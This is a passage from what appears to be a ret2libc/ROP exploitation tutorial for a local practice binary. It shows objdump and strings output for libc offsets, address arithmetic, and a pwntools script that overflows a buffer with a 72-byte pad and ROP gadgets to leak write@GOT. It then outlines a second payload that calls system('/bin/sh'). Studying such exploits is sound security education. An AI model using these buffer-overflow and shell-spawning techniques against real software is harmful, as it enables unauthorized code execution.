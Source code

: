 ## Obtaining the rest of addresses

When we got the libc address we can calculate the rest addresses:

```txt
system_libc = libc_address + system_libc_offset
bin_sh_libc = libc_address + bin_sh_libc_offset
exit_libc = libc_address + exit_libc_offset
```

Required offsets:

```txt
# objdump -d -M intel /lib64/libc.so.6 | grep "libc_system"
0000000000049e4a <.annobin___libc_system.start>:
0000000000049e50 <__libc_system>:
   49e57:	74 07                	je     49e60 <__libc_system+0x10>
0000000000049e7d <.annobin___libc_system.end>:

#objdump -d -M intel /lib64/libc.so.6 | grep "<exit>:"
000000000003f530 <exit>:

# strings -tx /lib64/libc.so.6 | grep /bin/sh
 18f143 /bin/sh
```

# Spawning a shell

The second payload:
* 'A'*72 
* address of rdi gadget
* address of "/bin/sh" string
* address of system
* address of exit

```python
#!/bin/python
from pwn import *

# Stage 1 data
main_address = 0x400537
write_address_got = 0x601018
write_plt = 0x400430

# Gadgets
rdi_gadget = 0x400613
rsi_gadget = 0x400611

#libc offsets
write_libc_offset = 0xf2520
system_libc_offset = 0x49e50
sh_libc_offset = 0x18f143#0x18f148
exit_libc_offset = 0x3f530

proc = process('./rop')

log.info("Stage one")
log.info("Receive input")
proc.recv(7)

payload = b'A'*72 + p64(rdi_gadget) + p64(0x1) + p64(rsi_gadget)+ p64(write_address_got) + p64(0x0) + p64(write_plt) + p64(main_address)

log.info("Send first payload")
proc.send(payload)
```